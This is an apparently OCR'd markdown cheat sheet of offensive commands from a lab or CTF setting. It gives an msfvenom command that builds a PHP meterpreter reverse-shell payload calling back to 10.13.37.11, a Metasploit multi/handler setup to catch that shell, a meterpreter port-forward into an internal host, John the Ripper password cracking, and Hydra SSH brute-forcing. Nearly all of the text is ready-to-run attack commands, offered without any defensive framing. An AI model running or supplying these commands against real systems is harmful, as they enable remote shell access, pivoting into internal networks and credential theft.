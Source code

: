 # Metasploit stuff

## Metepreter reverse tcp ( msfvenom )

```html
msfvenom -p php/meterpreter_reverse_tcp lhost=10.13.37.11 lport=9001 -o msf.php
```

## Get rshell using msf multi handler

```html
use exploit/multi/handler
set lhost 10.13.37.11
set payload php/meterpreter_reverse_tcp
set lport 9001
run
```

## Port foward using metapreter

```html
portfwd add -l 2222 -p 22 -r 172.16.50.222
```

# Some tools

## John-The-Ripper

```bash
john -wordlist=<wordlist> <file to crack>
```

## Hydra

```bash
hydra -l <username> -P <path to wordlist> <IP> ssh
```

```bash
hydra -L <path to username wordlist> -P <path to password wordlist> <IP> ssh
```

## Wire-shark only get requests

```
http.request.method == GET / POST
```

# if got stuck here's some resources
